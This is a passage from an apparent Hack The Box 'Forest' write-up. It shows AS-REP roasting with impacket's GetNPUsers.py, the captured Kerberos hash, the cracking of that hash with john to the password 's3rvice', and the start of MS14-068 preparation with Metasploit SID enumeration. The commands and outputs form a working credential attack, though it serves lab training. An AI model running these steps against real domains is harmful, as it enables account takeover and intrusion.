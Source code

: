 And we launch [impacket's](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) `GetNPUsers.py`.

    :::text
    python GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -format john
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    $krb5asrep$svc-alfresco@HTB.LOCAL:bcd2217d8b5e6884e25d8b2860dd0380$40be3fda5f8fd984f9c576d5dfa33f37effc76b0fbff3ae28a747825c3559bfea4a6a23ad1c0add8ad61d149a5ccc2e79919de9b78e8720b3dc79af96364fb6f5d7e0235eb83850765023a30de6d172c82ec751f50f4c6e4971cb54a46e16ec2d3a41b9f44b6b8e85782d958c3ff665baa5b29d8c5b4516ec1b63f7c63b55c5fa74b7b1b5fe1fa04cddac6812d0ef37f1e25ab8e8005fe7f6ce949786435c41a2395e73e9bf1de57e3a2da12a00f9da25408e92a37a5ed2dacdbbf3846963000f7b2f8d337d152345a9cc7358b5d45224abeac179f081b9b329e549659da00ac791a7fde1a8c
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] invalid principal syntax

We crack the password using john and the rockyou dictionary. The user's
password is "s3rvice".

    :::text
    john hashes -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "krb5asrep", but the string is also recognized as "krb5asrep-aes-opencl"
    Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:02 11.59% (ETA: 11:52:21) 0g/s 913958p/s 913958c/s 913958C/s eddie707..eck1956
    s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
    1g 0:00:00:04 DONE (2019-10-24 11:52) 0.2237g/s 914040p/s 914040c/s 914040C/s s401413..s3r1bu
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

## MS14-068

In order to run MS14-068 we need the SUID of our user. We enumerate them using
metasploit. Our user SID is `S-1-5-21-3072663084-364016917-1341370565-1147` (domain
SID-User RID).

    :::text
    msf5 auxiliary(admin/kerberos/ms14_068_kerberos_checksum) > use auxiliary/scanner/smb/smb_lookupsid
    msf5 auxiliary(scanner/smb/smb_lookupsid) > show options

    Module options (auxiliary/scanner/smb/smb_lookupsid):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      MaxRID     4000             no        Maximum RID to check
      MinRID     500              no        Starting RID to check
      RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      SMBDomain  .                no        The Windows domain to use for authentication
      SMBPass                     no        The password for the specified username
      SMBUser                     no        The username to authenticate as
      THREADS    1                yes       The number of concurrent threads

